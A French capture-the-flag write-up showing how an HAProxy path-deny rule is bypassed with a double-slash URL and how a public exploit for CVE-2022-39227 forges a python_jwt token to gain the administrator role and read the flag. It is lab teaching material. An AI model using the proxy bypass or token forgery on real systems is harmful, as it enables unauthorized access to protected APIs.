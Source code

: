 ## Haproxy bypass

On se connecte et remarque l'usage d'un proxy haproxy:

```bash
grep -r proxy
Dockerfile:RUN wget https://www.haproxy.org/download/2.8/src/haproxy-2.8.1.tar.gz && \
Dockerfile:    tar zxvf haproxy-*.tar.gz && cd haproxy-* && \
```

Dans `conf/haproxy.cfg`, le path `/api/v1/get_ticket` est interdit:

```
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

![api](./api.png)

En effet, notre requête a été deny, si l'on recherche dans les sources, on remarque que le *Forbidden* correspond à notre deny = HTTP 403:

```bash
grep -r forbidden
challenge/app/main/static/js/main.js:                    $('.results').text('Forbidden: Request forbidden by administrative rules.');
```

```js
    $('#get_ticket_btn').on('click', function() {
        $.ajax({
            url: '/api/v1/get_ticket',
            type: 'GET',
            success: function(response) {
                var cleanedResponse = JSON.stringify(response, null, 2).replace(/\\n/g, '').replace(/\\/g, '');
                $('.results').html('<pre>' + cleanedResponse + '</pre>');
            },
            error: function(xhr, status, error) {
                if(xhr.status === 403) {
                    $('.results').text('Forbidden: Request forbidden by administrative rules.');
                } else {
                    $('.results').text('Error: ' + error);
                }
            }
        });
    });
```

On peut bypasser le proxy en requêtant `//api/v1/get_ticket` pour obtenir un token en tant que `guest_user`:

![token](./token.png)

## JWT - CVE JSON

On remarque l'usage de `python_jwt`. Il faut se connecter en `administrator`.
On utilise cette CVE https://github.com/user0x1337/CVE-2022-39227


```bash
python cve_2022_39227.py -j <TOKEN_GUEST> -i "role=administrator"
```

Puis, on utilise le token "jsonifié" pour requêter le flag:

![flag](./flag.png)
